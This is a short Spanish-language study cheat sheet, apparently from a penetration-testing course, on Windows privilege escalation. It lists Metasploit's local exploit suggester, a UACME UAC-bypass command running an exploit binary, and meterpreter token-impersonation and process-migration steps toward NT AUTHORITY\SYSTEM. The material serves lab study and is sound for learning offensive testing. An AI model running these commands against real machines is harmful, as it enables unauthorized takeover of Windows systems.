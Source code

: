 ```yaml
---
created: 2024-12-21

---
```

-------------------------------------
- tags: #windows #privilegeescalation #kernel #metasploit #meterpreter 
-------------------
-> systeminfo
-> 


### Módulo de Metasploit para búsqueda de vulnerabilidades
	use post/multi/recon/local_exploit_suggester
(Hay que especificar la sesión)

### (Windows Exploit Suggester) GitHub para buscar vulnerabilidades

[Link al repositorio de GitHub](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)


### UAC bypass (si estamos en el grupo de administradores)
https://github.com/hfiref0x/UACME

##### Uso:
	akagi64.exe 23 C:\Temp\exploit.exe
	migrate x  (Siendo x el PID de un proceso ejecutado por NT AUTHORITY\SYSTEM)


### SeImpersonatePrivilege
	whoami /priv

Teniendo una sesión meterpreter ->

	get_privs
	load incognito
	list_tokens -u
	impersonate_token "ATTACKDEFENSE\Administrator"
	pgrep explorer
	migrate x (Siendo x el PID de explorer)


(Puede que tengamos que repetir esto para llegar a ser NT AUTHORITY\SYSTEM)

![[Pasted image 20230730135839.png]]
![[Pasted image 20230730140203.png]]












